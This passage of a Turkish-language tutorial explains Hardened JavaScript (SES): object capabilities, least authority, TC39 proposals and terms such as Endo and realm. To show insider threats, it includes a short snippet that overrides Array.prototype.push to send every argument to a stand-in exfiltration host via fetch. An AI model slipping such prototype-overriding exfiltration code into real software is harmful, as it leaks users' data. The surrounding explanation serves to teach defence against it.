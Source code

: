   _SES Rehberi[4]_ ayrıca ekler: "OCaps ile, birçok yabancı, kullanıcıya veya birbirlerine karşı onları rahatsız etme, müdahale etme veya 
  işbirliği yapma riski olmadan tek bir kum havuzunda işbirliği yapabilir."


* **POLA(En Az Yetki Prensibi):** Genel bir tanım şu şekilde olabilir;

  "_En Az Yetki Prensibi (POLA), kodun görevini gerçekleştirmek için ihtiyaç duyduğu yetkiye ve fazlasına sahip olmaması gerektiğini söyler._"[5]

  `Sertleştirilmiş JavaScript` doğrudan `POLA`yı uygulamaz, ancak programcıların modüllerine gereken yetkileri,
ve fazlasını değil, dağıtabilmeleri için zengin bir araç seti uygular.
### "İç tehditler" derken neyi kastediyorsunuz?
Kodunuzun bağımlı olduğu bir program ters davranırsa ne olur? Ya `Array.prototype.push` metodunu geçersiz kılarsa? Normal JavaScript ile aşağıdakine benzer bir şeyi önleyecek bir şey yoktur;
```js
const push = Array.prototype.push;
Array.prototype.push = (...args) => {
  fetch(`https://exfiltrate.example.com?${args}`);
  return push.apply(this, args);
};
```
> **Not**: Yukarıdaki kod örneği [Sertleştirilmiş JavaScript(10:34)](https://www.youtube.com/watch?v=RZ7bBIU8DRc)'ten alınmıştır.

[Moddable](https://github.com/Moddable-OpenSource/moddable) bloglarında `Sertleştirilmiş JavaScript`i şu şekilde tanımlar;

"_SES'in çözdüğü temel sorun, farklı kaynaklardan gelen kodun tek bir JavaScript sanal makinesinde güvenli bir şekilde çalıştırılabilmesini sağlamaktır. 
Bu, her kod bölümünün diğerlerinden müdahaleye karşı güvende olduğunu garanti eder._"

## `Sertleştirilmiş JavaScript` mı `SES` mi?
`Sertleştirilmiş JavaScript`, `SES` olarak bilinen şeydir. SES, `Secure ECMAScript`i ifade eder. Bu bootcamp boyunca ve genel olarak JavaScript topluluğunda, 
`SES` ve `Sertleştirilmiş JavaScript` terimleri birbirinin yerine kullanılır.

### Arka Plan Çalışması
`Sertleştirilmiş JavaScript`i _Standart JavaScript_ haline getirmek için [Ecma TC39](https://github.com/tc39)'a yapılan iki teklif bulunmaktadır;
1. [proposal-ses](https://github.com/tc39/proposal-ses)
2. [proposal-compartments](https://github.com/tc39/proposal-compartments)

Numara 2, numara 1'i geçersiz kılar. Şu anki aşama `Aşama 1`.

## Anahtar Kelimeler, Terminoloji
* **Endo**: Node.js'in JavaScript için yaptığı şeyi, Endo Sertleştirilmiş JavaScript için yapar. Endo, her paketi izole eden bir ECMAScript modül yükleyicisinde paketleri ve modülleri yükler,
host'un kaynaklarına sınırlı erişim sağlar. Agoric akıllı sözleşmeleri, Endo konuk programlarının bir örneğidir. [2]
* **Shim**: Bir shim, genellikle sorunu çözecek yeni bir API ekleyerek zaten mevcut olan kodun davranışını düzeltmek için kullanılan bir kod parçasıdır.[3]
* **JS İçsel/Primordials:** `Object`, `Array` ve `RegExp` gibi yerleşik JavaScript nesneleri.
* **Realm**: Bir realm, bir global obje ve ilk öğelerin (örneğin Array.prototype.push gibi nesneler ve standart kütüphane fonksiyonları) setidir. 
Bir web tarayıcısında, bir iframe bir realmdir. Node.js'de, bir Node işlemi bir realmdir. [1]
